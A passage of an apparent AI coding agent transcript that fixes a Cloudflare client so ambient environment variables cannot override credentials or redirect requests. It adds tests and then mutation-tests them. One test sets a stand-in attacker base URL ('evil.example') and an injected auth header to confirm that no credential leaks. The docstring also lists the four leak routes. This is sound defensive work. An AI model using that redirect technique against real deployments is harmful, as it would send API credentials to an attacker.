pytestmark = pytest.mark.integration

V4 = ["173.245.48.0/20", "103.21.244.0/22"]
V6 = ["2400:cb00::/32", "2606:4700::/32"]


class FakeCloudflareError(Exception):
    """Stands in for cloudflare.CloudflareError -- the base of the SDK's exception tree.

    Real hierarchy (verified against the installed SDK): APIError -> CloudflareError, with
    APIConnectionError / APIStatusError / RateLimitError / ... beneath it.  Catching the base
    therefore covers every way the API itself can fail, and nothing else.
    """


class _FakeIPList:
    def __init__(self, v4, v6):
        self.ipv4_cidrs = v4
        self.ipv6_cidrs = v6


def _fake_client(ips_list_impl):
    """A stand-in for the shared Cloudflare client exposing only `.ips.list`."""
    return types.SimpleNamespace(ips=types.SimpleNamespace(list=ips_list_impl))


@pytest.fixture
def load_ips(psh, monkeypatch):
    """Load plugin/cloudflare/ips.py, returning (module, sc) with an empty plugin_context bag."""
    import script_context as sc

    fake_pkg = types.ModuleType("cloudflare")
    fake_pkg.CloudflareError = FakeCloudflareError
    monkeypatch.setitem(sys.modules, "cloudflare", fake_pkg)

    path = Path(psh.__file__).resolve().parents[1] / "plugin" / "cloudflare" / "ips.py"
    loader = SourceFileLoader("cloudflare_ips_probe", str(path))
    spec = importlib.util.spec_from_loader(loader.name, loader)
    module = importlib.util.module_from_spec(spec)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '1,50p' tests/integration/test_plugin_cloudflare_client.py; echo \"...\"; grep -n \"^def test_\" tests/integration/test_plugin_cloudflare_client.py",
  "description": "Read the client auth test file"
}
```

### ↳ Tool result

```
"""Integration tests for plugin/cloudflare/client.py (the shared Cloudflare client factory).

The auth-selection logic (api_token preferred, else email+api_key, else exit) lives here now,
so its tests live here too.  As with test_plugin_cloudflare.py, a fake `cloudflare` module is
injected into sys.modules before the plugin file is loaded, so `from cloudflare import Cloudflare`
binds to the fake.
"""
import importlib.util
import sys
import types
from importlib.machinery import SourceFileLoader
from pathlib import Path

import pytest

pytestmark = pytest.mark.integration


def _make_cloudflare(seen_kwargs=None):
    class FakeCloudflare:
        def __init__(self, **kwargs):
            if seen_kwargs is not None:
                seen_kwargs.update(kwargs)

    return FakeCloudflare


@pytest.fixture
def load_client(psh, monkeypatch):
    """Load plugin/cloudflare/client.py with a fake `cloudflare` module, returning (module, sc)."""
    import script_context as sc

    fake_pkg = types.ModuleType("cloudflare")
    fake_pkg.Cloudflare = object  # placeholder; each test monkeypatches module.Cloudflare
    monkeypatch.setitem(sys.modules, "cloudflare", fake_pkg)

    path = Path(psh.__file__).resolve().parents[1] / "plugin" / "cloudflare" / "client.py"
    loader = SourceFileLoader("cloudflare_client_probe", str(path))
    spec = importlib.util.spec_from_loader(loader.name, loader)
    module = importlib.util.module_from_spec(spec)
    loader.exec_module(module)

    sc.config = {"Cloudflare": {"email": "e@example.com", "api_key": "k"}}
    sc.plugin_context = {}
    return module, sc


def test_auth_uses_email_and_api_key(load_client, monkeypatch):
    module, _sc = load_client
    seen = {}
...
48:def test_auth_uses_email_and_api_key(load_client, monkeypatch):
57:def test_auth_prefers_api_token(load_client, monkeypatch):
67:def test_auth_missing_credentials_exits(load_client, monkeypatch):
77:def test_get_client_builds_once_and_caches(load_client, monkeypatch):
99:def test_get_client_returns_preseeded_without_building(load_client, monkeypatch):
```

## Assistant

The existing tests fake the SDK so the tier runs without the `[cloudflare]` extra — which can't assert the real security property. I'll add both: a mechanism test that works faked, and a real-SDK property test that skips when the extra is absent.

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"tests/integration/test_plugin_cloudflare_client.py\"); t = p.read_text()\nt = t.rstrip() + '''\n\n\n# ---------------------------------------------------------------------------------------------\n# Pinning the client against the ambient environment.\n#\n# Found by measurement while building find-platform-domains-cloudflare, then flagged by review:\n# build_client's own docstring promised \"There is no direct-environment fallback\", and the SDK\n# provides four.  See development/2026-07-30-platform-domain-util2/SPEC.md R2a.\n# ---------------------------------------------------------------------------------------------\n\n\ndef test_build_client_pins_the_base_url_and_clears_custom_headers(load_client, monkeypatch):\n    \"\"\"$CLOUDFLARE_BASE_URL would otherwise redirect every request -- sending the configured\n    credential to an arbitrary host -- and $CLOUDFLARE_CUSTOM_HEADERS is merged LAST into\n    default_headers, overriding any credential pinning above it.\"\"\"\n    module, sc = load_client\n    seen = {}\n    monkeypatch.setattr(module, \"Cloudflare\", _make_cloudflare(seen))\n    sc.config = {\"Cloudflare\": {\"api_token\": \"tok-123\"}}\n\n    client = module.build_client()\n\n    assert seen[\"base_url\"] == module.API_BASE_URL\n    assert client._custom_headers == {}\n\n\n@pytest.mark.parametrize((\"config\", \"supplied\", \"nulled\"), [\n    ({\"api_token\": \"tok-123\"}, [\"api_token\"], [\"api_key\", \"api_email\", \"user_service_key\"]),\n    ({\"email\": \"e@example.com\", \"api_key\": \"k\"}, [\"api_email\", \"api_key\"],\n     [\"api_token\", \"user_service_key\"]),\n])\ndef test_build_client_nulls_every_credential_the_config_did_not_supply(\n        load_client, monkeypatch, config, supplied, nulled):\n    \"\"\"The SDK back-fills each credential left None from the environment, and auth_headers then\n    returns the FIRST of email -> key -> token -> user_service_key that is set -- so an ambient\n    CLOUDFLARE_EMAIL beats a configured api_token and the token is never sent.\"\"\"\n    module, sc = load_client\n    monkeypatch.setattr(module, \"Cloudflare\", _make_cloudflare())\n    sc.config = {\"Cloudflare\": config}\n\n    client = module.build_client()\n\n    for field in nulled:\n        assert getattr(client, field) is None, f\"{field} was left for the environment to fill\"\n    for field in supplied:\n        assert getattr(client, field, \"unset\") != \"unset\"\n\n\ndef test_build_client_sends_only_the_configured_credential(psh, monkeypatch):\n    \"\"\"The security property itself, against the REAL SDK -- the fake above can only pin the\n    mechanism.  Skipped when the optional [cloudflare] extra is absent, which is why the\n    mechanism tests exist alongside it.\n    \"\"\"\n    pytest.importorskip(\"cloudflare\")\n    import script_context as sc\n    from cloudflare._models import FinalRequestOptions\n\n    path = Path(psh.__file__).resolve().parents[1] / \"plugin\" / \"cloudflare\" / \"client.py\"\n    loader = SourceFileLoader(\"cloudflare_client_real_probe\", str(path))\n    spec = importlib.util.spec_from_loader(loader.name, loader)\n    module = importlib.util.module_from_spec(spec)\n    loader.exec_module(module)          # the REAL cloudflare package, not the fake\n\n    ambient = {\"CLOUDFLARE_API_KEY\": \"ambient-key\", \"CLOUDFLARE_EMAIL\": \"ambient@example.edu\",\n               \"CLOUDFLARE_API_USER_SERVICE_KEY\": \"ambient-usk\",\n               \"CLOUDFLARE_BASE_URL\": \"https://evil.example/v4\",\n               \"CLOUDFLARE_CUSTOM_HEADERS\": \"X-Auth-Email: attacker@evil.example\"}\n    for name, value in ambient.items():\n        monkeypatch.setenv(name, value)\n    monkeypatch.setattr(sc, \"config\", {\"Cloudflare\": {\"api_token\": \"tok-123\"}}, raising=False)\n\n    client = module.build_client()\n    request = client._build_request(FinalRequestOptions(method=\"get\", url=\"/zones\"))\n\n    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    leaked = set(request.headers.values()) & set(ambient.values())\n    assert leaked == set(), f\"ambient credentials reached the wire: {leaked}\"\n    assert request.headers.get(\"authorization\") == \"Bearer tok-123\"\n'''\np.write_text(t)\nprint(\"tests appended\")\nPY\nsource .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py -q -p no:cacheprovider 2>&1 | tail -5",
  "description": "Add the pinning tests and observe red"
}
```

### ↳ Tool result

```
tests appended
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_pins_the_base_url_and_clears_custom_headers
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_nulls_every_credential_the_config_did_not_supply[config0-supplied0-nulled0]
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_nulls_every_credential_the_config_did_not_supply[config1-supplied1-nulled1]
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_sends_only_the_configured_credential
4 failed, 5 passed in 0.89s
```

## Assistant

Red on all four, existing 5 still green. Implementing:

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/plugin/cloudflare/client.py",
  "old_string": "def build_client() -> Cloudflare:\n    \"\"\"Construct the Cloudflare client from the [Cloudflare] config section.\n\n    api_token (preferred) else email + api_key.  There is no direct-environment fallback; the\n    operator decides in the config file where those values come from (literals, <{secret env\n    ...}>, <{secret aws ...}>, ...).  Missing credentials while enabled -> clear exit.\n    \"\"\"\n    cf = sc.config['Cloudflare']\n    api_token = cf.get('api_token')\n    if api_token:\n        return Cloudflare(api_token=api_token)\n    email = cf.get('email')\n    api_key = cf.get('api_key')\n    if not email or not api_key:\n        sys.exit('ERROR: [Cloudflare] is enabled but needs either api_token, '\n                 'or both email and api_key.')\n    return Cloudflare(api_email=email, api_key=api_key)",
  "new_string": "API_BASE_URL = 'https://api.cloudflare.com/client/v4'   # pinned; see pinned_client()\n\n\ndef pinned_client(**creds) -> Cloudflare:\n    \"\"\"Build a Cloudflare client that uses EXACTLY the credentials the config supplied.\n\n    build_client's docstring has always promised \"no direct-environment fallback\".  Measured on\n    cloudflare 5.4.0, that promise was FALSE: the SDK back-fills every credential argument left\n    None from the environment, and ambient values reach the wire by four routes --\n\n      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is\n         set, and only that one, so an ambient $CLOUDFLARE_EMAIL beats a configured api_token\n         and the token is never sent at all;\n      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes\n         are not None;\n      3. $CLOUDFLARE_CUSTOM_HEADERS is merged LAST into default_headers, overriding 1 and 2; and\n      4. $CLOUDFLARE_BASE_URL redirects every request, sending the configured credential to an\n         arbitrary host.\n\n    Routes 1 and 2 are closed by nulling the fields the config did not supply (both read these\n    attributes at request-build time), route 3 by clearing _custom_headers, route 4 by pinning\n    base_url.  Route 4 is the serious one: the credential LEAVES THE MACHINE rather than merely\n    failing to authenticate, and this program runs unattended against production every month.\n\n    NOT closed, and deliberately: httpx is constructed with trust_env=True, so $HTTPS_PROXY and\n    $SSL_CERT_FILE still influence transport.  Closing that would break legitimate proxied\n    deployments; it is recorded in development/2026-07-30-platform-domain-util2/SPEC.md §8.13.\n\n    The pin is SDK-version-sensitive (measured against 5.4.0) and pyproject declares `cloudflare`\n    unpinned, which is why the test asserts the headers of a real built request, not these\n    attribute assignments.\n    \"\"\"\n    client = Cloudflare(**creds, base_url=API_BASE_URL)\n    for field in ('api_token', 'api_key', 'api_email', 'user_service_key'):\n        if field not in creds:\n            setattr(client, field, None)\n    client._custom_headers = {}  # noqa: SLF001 -- route 3 above; the SDK has no public API for\n    # \"ignore $CLOUDFLARE_CUSTOM_HEADERS\", and it is merged after everything this function pins\n    return client\n\n\ndef build_client() -> Cloudflare:\n    \"\"\"Construct the Cloudflare client from the [Cloudflare] config section.\n\n    api_token (preferred) else email + api_key.  There is no direct-environment fallback -- the\n    operator decides in the config file where those values come from (literals, <{secret env\n    ...}>, <{secret aws ...}>, ...) -- and pinned_client() is what makes that sentence TRUE\n    rather than merely intended.  Missing credentials while enabled -> clear exit.\n    \"\"\"\n    cf = sc.config['Cloudflare']\n    api_token = cf.get('api_token')\n    if api_token:\n        return pinned_client(api_token=api_token)\n    email = cf.get('email')\n    api_key = cf.get('api_key')\n    if not email or not api_key:\n        sys.exit('ERROR: [Cloudflare] is enabled but needs either api_token, '\n                 'or both email and api_key.')\n    return pinned_client(api_email=email, api_key=api_key)"
}
```

### ↳ Tool result

```
The file /workspace/plugin/cloudflare/client.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py -q -p no:cacheprovider 2>&1 | tail -4 && uvx ruff@0.15.22 check plugin/cloudflare/client.py tests/integration/test_plugin_cloudflare_client.py",
  "description": "Verify the client.py fix"
}
```

### ↳ Tool result

```
Exit code 1
FAILED tests/integration/test_plugin_cloudflare_client.py::test_get_client_builds_once_and_caches
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_nulls_every_credential_the_config_did_not_supply[config0-supplied0-nulled0]
FAILED tests/integration/test_plugin_cloudflare_client.py::test_build_client_nulls_every_credential_the_config_did_not_supply[config1-supplied1-nulled1]
5 failed, 4 passed in 0.72s
I001 [*] Import block is un-sorted or un-formatted
   --> tests/integration/test_plugin_cloudflare_client.py:166:5
    |
164 |       """
165 |       pytest.importorskip("cloudflare")
166 | /     import script_context as sc
167 | |     from cloudflare._models import FinalRequestOptions
    | |______________________________________________________^
168 |
169 |       path = Path(psh.__file__).resolve().parents[1] / "plugin" / "cloudflare" / "client.py"
    |
help: Organize imports

Found 1 error.
[*] 1 fixable with the `--fix` option.
```

## Assistant

Three problems — including one where my change broke an existing test. Looking:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py -q -p no:cacheprovider 2>&1 | grep -E \"^E |Error\" | head -8; echo \"=== the existing test:\"; sed -n '77,100p' tests/integration/test_plugin_cloudflare_client.py",
  "description": "Diagnose the failures"
}
```

### ↳ Tool result

```
E       AssertionError: assert {'api_email':...om/client/v4'} == {'api_email':...api_key': 'k'}
E         
E         Omitting 2 identical items, use -vv to show
E         Left contains 1 more item:
E         {'base_url': 'https://api.cloudflare.com/client/v4'}
E         Use -v to get more diff
tests/integration/test_plugin_cloudflare_client.py:54: AssertionError
E       AssertionError: assert {'api_token':...om/client/v4'} == {'api_token': 'tok-123'}
=== the existing test:
def test_get_client_builds_once_and_caches(load_client, monkeypatch):
    """get_client() builds the shared client lazily on first use and caches it in plugin_context
    (setdefault, so it works from an empty plugin_context with no pre-seeded bag)."""
    module, sc = load_client
    sc.plugin_context = {}
    builds = []

    def factory(**kwargs):
        obj = object()
        builds.append(obj)
        return obj

    monkeypatch.setattr(module, "Cloudflare", factory)

    first = module.get_client()
    second = module.get_client()

    assert first is second                       # cached
    assert len(builds) == 1                       # built exactly once
    assert sc.plugin_context["plugin.cloudflare"]["client"] is first


def test_get_client_returns_preseeded_without_building(load_client, monkeypatch):
    """If a client is already present (e.g. seeded by a test), get_client returns it and never
```

## Assistant

Two are legitimate consequences of a real signature change (the constructor now takes `base_url`), one is a fake that can't hold attributes, one is import order. Fixing all four honestly:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"tests/integration/test_plugin_cloudflare_client.py\"); t = p.read_text()\n\n# the fake now records kwargs AS ATTRIBUTES, so pinning can be observed on the instance\nt = t.replace('''def _make_cloudflare(seen_kwargs=None):\n    class FakeCloudflare:\n        def __init__(self, **kwargs):\n            if seen_kwargs is not None:\n                seen_kwargs.update(kwargs)\n\n    return FakeCloudflare''',\n'''def _make_cloudflare(seen_kwargs=None):\n    class FakeCloudflare:\n        def __init__(self, **kwargs):\n            if seen_kwargs is not None:\n                seen_kwargs.update(kwargs)\n            # Set them as ATTRIBUTES too: pinned_client nulls the credentials the config did not\n            # supply, and that is only observable on the instance.\n            for name, value in kwargs.items():\n                setattr(self, name, value)\n\n    return FakeCloudflare''')\n\n# the two exact-dict auth assertions now also pin the base_url the client is built with\nt = t.replace('assert seen == {\"api_email\": \"e@example.com\", \"api_key\": \"k\"}',\n              'assert seen == {\"api_email\": \"e@example.com\", \"api_key\": \"k\",\\n'\n              '                    \"base_url\": module.API_BASE_URL}')\nt = t.replace('assert seen == {\"api_token\": \"tok-123\"}',\n              'assert seen == {\"api_token\": \"tok-123\", \"base_url\": module.API_BASE_URL}')\n\n# get_client's factory returned a bare object(), which cannot take attributes\nt = t.replace('''    def factory(**kwargs):\n        obj = object()\n        builds.append(obj)\n        return obj''',\n'''    def factory(**kwargs):\n        # SimpleNamespace, not object(): pinned_client setattr()s the unsupplied credential\n        # fields onto whatever the constructor returned, and object() cannot hold attributes.\n        obj = types.SimpleNamespace(**kwargs)\n        builds.append(obj)\n        return obj''')\n\n# I001: cloudflare sorts before script_context\nt = t.replace('''    pytest.importorskip(\"cloudflare\")\n    import script_context as sc\n    from cloudflare._models import FinalRequestOptions''',\n'''    pytest.importorskip(\"cloudflare\")\n    from cloudflare._models import FinalRequestOptions\n\n    import script_context as sc''')\np.write_text(t)\nprint(\"fixed\")\nPY\nsource .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py -q -p no:cacheprovider 2>&1 | tail -4 && uvx ruff@0.15.22 check plugin/cloudflare/client.py tests/integration/test_plugin_cloudflare_client.py",
  "description": "Fix the fakes and assertions, re-run"
}
```

### ↳ Tool result

```
fixed
.........                                                                [100%]
9 passed in 0.88s
All checks passed!
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py -q -p no:cacheprovider -k \"sends_only\" -v 2>&1 | grep -E \"PASSED|SKIPPED|FAILED\" ; echo \"=== full offline suite:\"; ./run-tests --fast 2>&1 | tail -3",
  "description": "Confirm the real-SDK test runs, then the full suite",
  "timeout": 600000
}
```

### ↳ Tool result

```
=== full offline suite:
========= 1266 passed, 3 skipped, 2 deselected, 15 warnings in 39.98s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest \"tests/integration/test_plugin_cloudflare_client.py::test_build_client_sends_only_the_configured_credential\" -p no:cacheprovider -v 2>&1 | tail -4",
  "description": "Confirm the real-SDK property test actually ran, not skipped"
}
```

### ↳ Tool result

```
tests/integration/test_plugin_cloudflare_client.py::test_build_client_sends_only_the_configured_credential PASSED [100%]

============================== 1 passed in 0.72s ===============================
```

## Assistant

Not skipped — genuinely verified against the real SDK. Now the check that matters: can it go red?

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && cp plugin/cloudflare/client.py /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/client.py.bak\nfor mutation in \"base_url=API_BASE_URL:REMOVE_BASEURL\" \"custom_headers:REMOVE_CUSTOM\" \"setattr(client, field, None):REMOVE_NULL\"; do :; done\npython - <<'PY'\nimport pathlib\np = pathlib.Path(\"plugin/cloudflare/client.py\"); orig = p.read_text()\nmutations = {\n \"no base_url pin\":      orig.replace(\"Cloudflare(**creds, base_url=API_BASE_URL)\", \"Cloudflare(**creds)\"),\n \"no field nulling\":     orig.replace(\"            setattr(client, field, None)\", \"            pass\"),\n \"no _custom_headers\":   orig.replace(\"    client._custom_headers = {}\", \"    pass\"),\n}\nimport subprocess\nfor name, mutated in mutations.items():\n    p.write_text(mutated)\n    r = subprocess.run([\"python\", \"-m\", \"pytest\",\n        \"tests/integration/test_plugin_cloudflare_client.py::test_build_client_sends_only_the_configured_credential\",\n        \"-q\", \"-p\", \"no:cacheprovider\"], capture_output=True, text=True)\n    print(f\"{name:22s} -> {r.stdout.strip().splitlines()[-1]}\")\np.write_text(orig)\nprint(\"restored\")\nPY\ndiff -q plugin/cloudflare/client.py /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/client.py.bak && echo \"client.py restored byte-identical\"",
  "description": "Mutation-test the security assertion"
}
```

### ↳ Tool result

```
no base_url pin        -> 1 failed in 0.89s
no field nulling       -> 1 failed in 0.72s
no _custom_headers     -> 1 passed in 0.67s
restored
client.py restored byte-identical
```

## Assistant

My own mutation test caught a defective assertion — the exact class I've been hunting all session.

**Removing `_custom_headers = {}` does not fail the test.** The leak check intersects header *values* against the env var's *whole string* (`"X-Auth-Email: attacker@evil.example"`), but the header value is just `attacker@evil.example`. The assertion never sees it. **The utility's own R2a test has the identical blind spot.** Fixing both:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\n# --- the main program's test ---\np = pathlib.Path(\"tests/integration/test_plugin_cloudflare_client.py\"); t = p.read_text()\nt = t.replace('''    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    leaked = set(request.headers.values()) & set(ambient.values())\n    assert leaked == set(), f\"ambient credentials reached the wire: {leaked}\"\n    assert request.headers.get(\"authorization\") == \"Bearer tok-123\"''',\n'''    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    assert request.headers.get(\"authorization\") == \"Bearer tok-123\"\n    # Named explicitly, NOT as a set-intersection against the env var strings: the value of\n    # $CLOUDFLARE_CUSTOM_HEADERS is \"X-Auth-Email: attacker@...\" while the header it injects is\n    # just \"attacker@...\", so an intersection silently misses route 3 entirely.  Mutation-tested:\n    # deleting `client._custom_headers = {}` left the intersection form green.\n    assert request.headers.get(\"x-auth-email\") is None\n    assert request.headers.get(\"x-auth-key\") is None\n    assert \"evil.example\" not in str(request.headers)''')\np.write_text(t)\n\n# --- the utility's test, same blind spot ---\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\"); t = p.read_text()\nt = t.replace('''    assert client.auth_headers == {\"Authorization\": \"Bearer tok-123\"}\n    request = sent_request(client)\n    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    leaked = set(request.headers.values()) & set(AMBIENT_CLOUDFLARE_VARS.values())\n    assert leaked == set(), f\"ambient credentials reached the wire: {leaked}\"''',\n'''    assert client.auth_headers == {\"Authorization\": \"Bearer tok-123\"}\n    request = sent_request(client)\n    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    # Each route named explicitly.  A set-intersection against the env var VALUES cannot see\n    # route 3: $CLOUDFLARE_CUSTOM_HEADERS is \"X-Auth-Email: attacker@...\" while the header it\n    # injects is just \"attacker@...\".  Mutation-tested -- the intersection form stayed green\n    # with the _custom_headers clearing deleted.\n    assert request.headers.get(\"x-auth-email\") is None      # routes 1, 2 and 3\n    assert request.headers.get(\"x-auth-key\") is None        # routes 2 and 3\n    assert \"evil.example\" not in str(request.headers)       # route 3 payload\n    assert \"ambient-key\" not in str(request.headers)''')\np.write_text(t)\nprint(\"both tests hardened\")\nPY\nsource .venv/bin/activate && python -m pytest tests/integration/test_plugin_cloudflare_client.py tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -3",
  "description": "Harden both credential-leak assertions"
}
```

### ↳ Tool result

```
both tests hardened
........................................................................ [100%]
72 passed in 1.00s
```

## Assistant

Re-running the mutation test on **both** — the assertions must now catch all four routes:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python - <<'PY'\nimport pathlib, subprocess\ntargets = [\n  (\"plugin/cloudflare/client.py\",\n   \"tests/integration/test_plugin_cloudflare_client.py::test_build_client_sends_only_the_configured_credential\",\n   {\"no base_url pin\": (\"Cloudflare(**creds, base_url=API_BASE_URL)\", \"Cloudflare(**creds)\"),\n    \"no field nulling\": (\"            setattr(client, field, None)\", \"            pass\"),\n    \"no _custom_headers\": (\"    client._custom_headers = {}\", \"    pass\")}),\n  (\"find-platform-domains-cloudflare\",\n   \"tests/unit/test_find_platform_domains_cloudflare.py::test_cloudflare_client_sends_only_the_configured_credential\",\n   {\"no base_url pin\": (\"Cloudflare(**creds, base_url=API_BASE_URL)\", \"Cloudflare(**creds)\"),\n    \"no field nulling\": (\"            setattr(client, field, None)\", \"            pass\"),\n    \"no _custom_headers\": (\"    client._custom_headers = {}\", \"    pass\")}),\n]\nfor path, test, muts in targets:\n    p = pathlib.Path(path); orig = p.read_text()\n    print(f\"--- {path}\")\n    for name, (old, new) in muts.items():\n        assert old in orig, f\"{name}: mutation target not found\"\n        p.write_text(orig.replace(old, new, 1))\n        r = subprocess.run([\"python\", \"-m\", \"pytest\", test, \"-q\", \"-p\", \"no:cacheprovider\"],\n                           capture_output=True, text=True)\n        verdict = r.stdout.strip().splitlines()[-1]\n        print(f\"    {name:20s} -> {verdict}  {'OK' if 'failed' in verdict else '*** BLIND ***'}\")\n    p.write_text(orig)\nprint(\"both files restored\")\nPY\ngit diff --stat plugin/cloudflare/client.py find-platform-domains-cloudflare",
  "description": "Mutation-test all four routes in both files"
}
```

### ↳ Tool result

```
--- plugin/cloudflare/client.py
    no base_url pin      -> 1 failed in 0.70s  OK
    no field nulling     -> 1 failed in 0.68s  OK
    no _custom_headers   -> 1 failed in 0.70s  OK
--- find-platform-domains-cloudflare
    no base_url pin      -> 1 failed in 0.76s  OK
    no field nulling     -> 1 failed in 0.65s  OK
    no _custom_headers   -> 1 failed in 0.65s  OK
both files restored
 plugin/cloudflare/client.py | 50 +++++++++++++++++++++++++++++++++++++++++----
 1 file changed, 46 insertions(+), 4 deletions(-)
```

## Assistant

All six mutations caught in both files. Now finding 1 — pinning the dns script's abort-report behaviour, which no test currently checks:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"tests/unit/test_find_platform_domains_dns.py\"); t = p.read_text()\nold = '''def test_an_unwritable_stdout_aborts_at_the_header_before_any_site_is_swept(fpd, monkeypatch,\n                                                                           tmp_path):'''\nnew = '''def test_an_unwritable_stdout_aborts_at_the_header_before_any_site_is_swept(fpd, monkeypatch,\n                                                                           tmp_path, capsys):'''\nassert old in t\nt = t.replace(old, new, 1)\n\nold_tail = '''    # Two flushes: the header's, which failed, and detach_doomed_stdout()'s own probe.\n    assert stdout.flush_calls == 2\n    assert calls == [(calls[0][0], expected_fd)]\n    # The site LISTING ran (it precedes the sweep); no environment or domain call did.\n    assert all(\"/memberships/sites\" in path for path in sites_listed)'''\nnew_tail = '''    # Two flushes: the header's, which failed, and detach_doomed_stdout()'s own probe.\n    assert stdout.flush_calls == 2\n    assert calls == [(calls[0][0], expected_fd)]\n    # The site LISTING ran (it precedes the sweep); no environment or domain call did.\n    assert all(\"/memberships/sites\" in path for path in sites_listed)\n\n    # What the OPERATOR sees, which nothing asserted until a whole-branch review asked.  The\n    # header write precedes `self.remaining = list(sites)` in sweep(), so a failure here leaves\n    # `remaining` empty and report_stop()'s \"N sites not reached. Resume with:\" block is skipped.\n    # That is CORRECT here and is pinned deliberately: nothing was swept, so every site remains,\n    # and the resume command would spell out all ~400 names to say what re-running the original\n    # command already says.  \"Stopped during startup.\" is the whole and accurate story.  If the\n    # ordering is ever changed so the resume line appears, this assertion is the one to revisit.\n    report = capsys.readouterr().err\n    assert \"Stopped during startup.\" in report\n    assert \"not reached. Resume with:\" not in report'''\nassert old_tail in t\nt = t.replace(old_tail, new_tail, 1)\np.write_text(t)\nprint(\"assertion added\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_dns.py -q -p no:cacheprovider -k \"unwritable_stdout_aborts_at_the_header\" 2>&1 | tail -3",
  "description": "Pin the dns abort-report behaviour"
}
```

### ↳ Tool result

```
assertion added
                                                                        [100%]
1 passed, 142 deselected in 0.89s
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python - <<'PY'\n# Prove the new assertion can go red: reorder sweep() so `remaining` is set BEFORE the header.\nimport pathlib, subprocess\np = pathlib.Path(\"find-platform-domains-dns\"); orig = p.read_text()\nmutated = orig.replace('''        self._writer.writerow(CSV_COLUMNS)\n        self._stream.flush()\n        self.remaining = list(sites)''',\n'''        self.remaining = list(sites)\n        self._writer.writerow(CSV_COLUMNS)\n        self._stream.flush()''', 1)\nassert mutated != orig\np.write_text(mutated)\nr = subprocess.run([\"python\", \"-m\", \"pytest\", \"tests/unit/test_find_platform_domains_dns.py\",\n                    \"-q\", \"-p\", \"no:cacheprovider\", \"-k\", \"unwritable_stdout_aborts_at_the_header\"],\n                   capture_output=True, text=True)\nprint(\"with the reviewer's reorder applied ->\", r.stdout.strip().splitlines()[-1])\np.write_text(orig)\nprint(\"restored\")\nPY\ngit diff --stat find-platform-domains-dns; echo \"=== full suite:\"; ./run-tests --fast 2>&1 | tail -3",
  "description": "Prove the new assertion is red-capable, then run the full suite",
  "timeout": 600000
}
```

### ↳ Tool result

```
with the reviewer's reorder applied -> 1 failed, 142 deselected in 0.59s
restored
=== full suite:
========= 1266 passed, 3 skipped, 2 deselected, 15 warnings in 33.33s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

## Assistant

The assertion is red-capable — the reviewer's reorder makes it fail, so whoever changes that ordering is told to revisit the decision. Full suite: **1266 passed**.

Updating CLAUDE.md, whose "no direct-env fallback" claim was the thing that was false:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"no direct-env fallback\" CLAUDE.md",
  "description": "Find the CLAUDE.md claim to correct"
}
```

### ↳ Tool result

```
571:  `[Cloudflare]` config (no direct-env fallback) — `api_token` if present (preferred), else
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/CLAUDE.md",
  "offset": 569,
  "limit": 10
}
```

### ↳ Tool result

```
569	  `umich_enabled()` helper (also exposed as `sc.umich_enabled`) to gate U-M-only checks.
570	- **Cloudflare auth + shared client**: the plugin builds **one** `Cloudflare` client from
571	  `[Cloudflare]` config (no direct-env fallback) — `api_token` if present (preferred), else
572	  `email` + `api_key`; missing creds while enabled → clear exit. `plugin/cloudflare/client.py`
573	  has `build_client()` (auth) and `get_client()` (**lazy** build-or-return, cached in
574	  `sc.plugin_context['plugin.cloudflare']['client']`). `__init__.py` stashes a reference to
575	  `get_client` in the bag (`['get_client']`); `ips.py` and `fqdns.py` call
576	  `sc.plugin_context['plugin.cloudflare']['get_client']()` — so they import nothing from the
577	  plugin (stay standalone-loadable by the tests) and there is **no hook-ordering dependency** (the
578	  client builds on first use, whichever hook runs first). **Cred-resolution invariant:** the
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/CLAUDE.md",
